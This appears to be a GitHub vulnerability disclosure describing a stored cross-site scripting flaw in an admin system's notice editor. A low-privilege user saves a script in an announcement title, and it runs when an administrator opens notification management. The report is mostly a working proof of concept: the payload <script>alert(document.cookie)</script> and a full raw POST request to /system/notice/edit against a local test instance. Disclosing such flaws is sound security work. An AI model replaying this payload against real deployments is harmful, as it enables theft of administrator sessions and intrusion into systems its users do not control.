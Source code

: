 Log in as a ry user, enter the notification announcement menu, and click the edit button.  
<img width="415" alt="image" src="https://github.com/biantaibao/octopus_XSS/assets/131763503/b39b3ccc-fe9d-4794-952e-21c695f9d894">  
Enter the malicious script into the announcement title and click save.  
<img width="414" alt="image" src="https://github.com/biantaibao/octopus_XSS/assets/131763503/932b846a-eab7-4215-bb94-bf3977f0d6d8">  
payload:<script>alert(document.cookie)</script>  
poc:  
POST /system/notice/edit HTTP/1.1  
Host: 127.0.0.1:9999  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0  
Accept: application/json, text/javascript, */*; q=0.01  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
X-Requested-With: XMLHttpRequest  
Content-Length: 154  
Origin: http://127.0.0.1:9999  
Connection: close  
Referer: http://127.0.0.1:9999/system/notice/edit/1  
Cookie: Hm_lvt_f8cddee34ca21f05373a9388cfdd798b=1704968094; Hm_lvt_bfe2407e37bbaa8dc195c5db42daf96a=1705885425  
Sec-Fetch-Dest: empty  
Sec-Fetch-Mode: cors  
Sec-Fetch-Site: same-origin  

noticeId=1&noticeTitle=%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E&noticeType=2&noticeContent=%E6%96%B0%E7%89%88%E6%9C%AC%E5%86%85%E5%AE%B9&status=0  


When we log in with the admin account, clicking on the notification management menu again will trigger the malicious code.  
<img width="414" alt="image" src="https://github.com/biantaibao/octopus_XSS/assets/131763503/a9a35600-3f55-4df9-bf1b-b20f2c53cdac">



